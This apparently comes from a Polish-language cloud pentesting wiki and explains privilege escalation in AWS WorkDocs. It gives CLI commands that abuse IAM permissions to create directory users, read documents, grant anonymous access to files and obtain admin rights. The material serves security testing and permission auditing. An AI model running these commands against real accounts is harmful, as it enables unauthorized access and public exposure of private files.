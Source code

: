 # AWS - Eskalacja uprawnień w WorkDocs

## WorkDocs

Aby uzyskać więcej informacji na temat WorkDocs, sprawdź:

{% content-ref url="../aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

Utwórz użytkownika wskazanego w katalogu, a następnie uzyskasz dostęp zarówno do WorkDocs, jak i AD:
```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```
### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

Pliki mogą zawierać poufne informacje, przeczytaj je:
```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```
### `workdocs:AddResourcePermissions`

Jeśli nie masz dostępu do odczytu czegoś, po prostu możesz go udzielić
```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```
### `workdocs:AddUserToGroup`

Możesz uczynić użytkownika administratorem, ustawiając go w grupie ZOCALO\_ADMIN.\
Aby to zrobić, postępuj zgodnie z instrukcjami z [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html)

Zaloguj się tym użytkownikiem w workdoc i uzyskaj dostęp do panelu administratora w `/workdocs/index.html#/admin`

Nie znalazłem sposobu na wykonanie tego za pomocą wiersza poleceń.
